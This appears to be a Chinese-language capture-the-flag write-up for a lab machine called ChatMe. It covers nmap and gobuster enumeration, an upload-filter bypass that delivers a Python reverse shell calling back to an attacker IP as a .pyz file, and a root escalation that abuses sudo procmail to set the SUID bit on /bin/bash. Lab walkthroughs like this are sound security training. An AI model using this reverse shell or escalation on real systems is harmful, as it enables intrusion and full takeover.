


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/chatme  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 19:54 CST
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: ChatMe - The Best Online Chat Solution
|_http-server-header: nginx/1.24.0 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2
```

网页中存在**chat.chatme.dl**，将其添加到**/etc/hosts**

## Gobuster

```
[root@kali] /home/kali/chatme  
❯ gobuster dir -u "http://chat.chatme.dl/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php  --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chat.chatme.dl/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1891]
/uploads              (Status: 301) [Size: 178] [--> http://chat.chatme.dl/uploads/]
/index2.php           (Status: 200) [Size: 5769]
/chat.php             (Status: 200) [Size: 2]
/upload.php           (Status: 200) [Size: 147]
/css                  (Status: 301) [Size: 178] [--> http://chat.chatme.dl/css/]
/js                   (Status: 301) [Size: 178] [--> http://chat.chatme.dl/js/]
/LICENSE              (Status: 200) [Size: 35147]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## Upload

尝试上传一个木马，发现后缀名被修改为了**PNG**



这里没什么思路，看了一下题解，发现**.pyz**没有被过滤，并且Whatsapp里面存在一个漏洞

- [https://github.com/r000t1ng/Reverse-Shell-Whatsapp](https://github.com/r000t1ng/Reverse-Shell-Whatsapp)

```
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 100))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

制作**pyz**文件，然后监听

```
python -m zipapp reverse_shell.py -o reverse_shell.pyz
```



## Root

查看**sudo**命令

```
$ sudo -l
Matching Defaults entries for system on 762518b8eb29:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User system may run the following commands on 762518b8eb29:
    (ALL : ALL) NOPASSWD: /usr/bin/procmail
```

在**GTFObins**中并没有收集

但是可以创建配置文件然后指定：[procmail - Unix, Linux Command](https://www.tutorialspoint.com/unix_commands/procmail.htm#6)

```
TMPFILE="/tmp/pwned2.txt"

:0
| touch $TMPFILE; chmod u+s /bin/bash
```

然后执行

```
$ echo "123" | sudo /usr/bin/procmail -m ./config
$ /bin/bash -p
whoami
root
```

## Summary

`User`：卡在了文件上传的那一步，题目也没有哪里暗示了是**Whatsapp**，看了其他的解才知道。

`Root`：就是引用危险配置文件，写入提权的代码。
